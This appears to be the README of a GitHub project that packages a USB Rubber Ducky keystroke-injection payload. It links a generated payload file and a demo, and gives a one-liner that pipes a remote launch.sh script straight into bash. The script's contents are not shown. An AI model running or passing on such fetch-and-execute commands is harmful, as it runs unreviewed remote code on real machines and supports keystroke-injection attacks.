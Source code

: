 # Ducky the Duck

## Usage

- Rubber ducky

[Payload launch.txt](./launch.txt) (generated from [launch.sh](./launch.sh))

[![asciicast](https://asciinema.org/a/598625.svg)](https://asciinema.org/a/598625)

- Bash

```bash
# curl -sLf 'https://raw.githubusercontent.com/Saverio976/ducky-the-duck/main/launch.sh' | "$(readlink /proc/$$/exe)"
curl -sLf 'https://raw.githubusercontent.com/Saverio976/ducky-the-duck/main/launch.sh' | bash
```

## Resources

- https://docs.hak5.org/hak5-usb-rubber-ducky/ducky-script-basics/hello-world

- https://github.com/hak5/usbrubberducky-payloads

# License

[The Unlicense](./LICENSE)
